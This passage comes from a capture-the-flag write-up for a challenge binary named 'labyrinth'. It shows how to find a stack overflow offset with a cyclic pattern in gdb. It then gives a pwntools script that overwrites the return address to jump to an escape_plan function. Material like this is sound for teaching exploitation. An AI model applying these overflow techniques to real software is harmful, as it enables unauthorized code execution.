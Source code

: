 We can then inspect the top value on the stack in gdb. The first 4 characters are the cyclic pattern we are looking for

![overflow](./overflow_ret_ptr.png)

In this case it's `oaaa`

We can now find the offset of this pattern and only send bytes up untill this point.

Then we can send the address of escape_plan to return to there instead

```py
from pwn import *

gdbscript = """
b *0x0000000000401602
c
"""

io = gdb.debug("./labyrinth",gdbscript=gdbscript)

io.recvuntil(b'>>')
io.sendline(b'69')
io.recvuntil(b'>>')

padding = cyclic_find(b'oaaa') * b'A'
escape_plan = p64(0x401255)

io.sendline(padding+escape_plan)

io.interactive()
```

![escape_plan](./into_escape_plan.png)
